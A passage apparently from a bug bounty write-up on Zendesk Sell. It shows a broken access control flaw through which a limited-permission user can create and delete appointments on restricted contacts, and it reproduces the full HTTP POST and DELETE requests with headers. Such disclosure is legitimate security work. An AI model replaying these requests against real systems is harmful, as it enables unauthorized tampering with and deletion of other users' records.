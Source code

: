 - Editing documents on contacts
```http
PUT /apis/uploader/api/v2/uploads/<upload_id>.json 
```
So we were able to effect the integrity of the documents as we were able to edit the names of documents and even change their extensions.




### Bug 3: Privilege escalations leads to add/remove appointments on restricted contacts.

Since zendesk allows users to collaborate on various functionalities in the app. This was accomplished by various roles for performing different functions in the app. One role in the app was defined as *limitted permission user* which has access to limktted features in the app. The following user was *unable to create* the *contacts* nor could he add any appointments on them.

{{1}}

But we were able to find an api path with *broken access controls*  that lead the **limitted user** to create and remove appointments with the *contacts* eventhough this functionality was restricted from the *said role*.

Limitted user was successfully able to exploit this *api request* to create appointments with the contacts just by using their **contact id**.

```http
POST /apis/appointments/api/v1/appointments.json HTTP/1.1
Host: app.futuresimple.com
Connection: close
Content-Length: 255
x-interaction-id: 3c4eee5f-bda4-4581-bd8d-1e54aeb2ac01
Origin: https://app.futuresimple.com
x-parent-operation-id: 3c4eee5f-bda4-4581-bd8d-1e54aeb2ac01
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36
x-csrf-token-generated-at: 1597815645
Content-Type: application/json
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
x-csrf-token-signature: <VALUE>
Referer: https://app.futuresimple.com/crm/contacts/288149956
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie:<VALUE>

{"appointment":{"contact_id":"<contact id>","start_at":"2020-08-17T00:00:00.000Z","end_at":"2020-08-17T23:59:59.999Z","is_public":false,"send_updates":true,"name":"New Appointment on Sunda","location":"New York","description":"","all_day":true}
```

The limitted user was able to cancel/delete all of the appointments via below `http request` by changing the **appointment id**.

```http
DELETE /apis/appointments/api/v1/appointments/<<apppointment id>>.json HTTP/1.1
Host: app.futuresimple.com
Connection: close
Content-Length: 12
x-interaction-id: 91a95d78-f953-4303-f70c-f36f8f3c222c
Origin: https://app.futuresimple.com
x-parent-operation-id: 91a95d78-f953-4303-f70c-f36f8f3c222c
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36
x-csrf-token-generated-at: 1597816624
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
```